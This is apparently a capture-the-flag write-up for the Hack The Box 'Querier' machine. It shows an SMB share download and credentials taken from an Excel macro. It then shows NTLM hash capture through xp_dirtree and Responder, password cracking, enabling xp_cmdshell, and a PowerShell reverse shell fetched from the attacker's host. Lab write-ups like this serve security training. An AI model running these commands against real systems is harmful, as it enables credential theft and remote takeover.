

# 10 - SMB

# SMB enumeration with multiple tools


This picture illustrates how important it is to have multiples tools in your toolbox.

# Download the files in the shares
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ smbclient -N  //10.10.10.125/Reports
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jan 29 02:23:48 2019
  ..                                  D        0  Tue Jan 29 02:23:48 2019
  Currency Volume Report.xlsm         A    12229  Mon Jan 28 01:21:34 2019

                6469119 blocks of size 4096. 1610517 blocks available

smb: \> get "Currency Volume Report.xlsm"
getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (4.5 KiloBytes/sec) (average 4.5 KiloBytes/sec)
smb: \> 

```


# Open xlsm

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ open Currency\ Volume\ Report.xlsm 
```

xlsm is an excel file with macros.


# Click OK on the warning window


# Hit ALT+ F11  to open `Basic Macros`



# ThisWorkBook


Currency Volume Report.xlsm --> VBAProject --> Document Objects --> ThisWorkbook then click Edit to view the macro.


# Credentials


The macro contains the following credentials:

* reporting:PcwTWTHRwryjc$c6


# MS SQL Database
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]                                                                                                                                                  
└──╼ $ impacket-mssqlclient -db volume -windows-auth localhost/reporting:'PcwTWTHRwryjc$c6'@10.10.10.125                                                                                      
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                      
                                                                                                                                                                                              
[*] Encryption required, switching to TLS                                                                                                                                                     
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume                                                                                                                                 
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english                                                                                                                                   
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192                                                                                                                                  
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.                                                                                                                              
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.                                                                                                                            
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

reporting is not a privileged user, they cannot execute commands. Nevertheless, we can run responder to grab the service's hash.

# Responder

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ sudo responder -I tun0       
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
                                               
           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
                                               
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C 
```


# Send the hash
```bash
SQL> exec master..xp_dirtree '\\10.10.14.9\test'
subdirectory                                                                                                                                                                                                                                                            depth   

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   

SQL> 
```

# Grab the hash


# Cracked
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]                                                   
└──╼ $ john hash  -w=/usr/share/wordlists/rockyou.txt                                           
Using default input encoding: UTF-8                                                            
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])               
Will run 2 OpenMP threads                                                                      
Press 'q' or Ctrl-C to abort, almost any other key for status                    
corporate568     (mssql-svc)                                                                   
1g 0:00:00:06 DONE (2021-08-17 17:08) 0.1612g/s 1444Kp/s 1444Kc/s 1444KC/s correforenz..corococo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed

```


# Code execution in MS SQL


```sql
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ impacket-mssqlclient -windows-auth localhost/mssql-svc:corporate568@10.10.10.125 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


[!] Press help for extra shell commands
SQL> EXEC SP_CONFIGURE 'show advanced options', 1
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> EXEC SP_CONFIGURE 'xp_cmdshell' , 1
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell whoami
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc                                                                  

NULL                                                                               

SQL> 
```

# Shell

```sql
SQL> xp_cmdshell "powershell wget 10.10.14.9/rev.ps1 -o /windows/temp/rev.ps1";
SQL> xp_cmdshell "powershell /windows/temp/rev.ps1";
```

```powershell
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
1cG93ZXJzaGVsbCBJRVgoTmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzEwLjEwLjE0LjkvcmV2LnBzMScpCg==connect to [10.10.14.9] from htb.local [10.10.10.125] 49688
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
querier\mssql-svc
```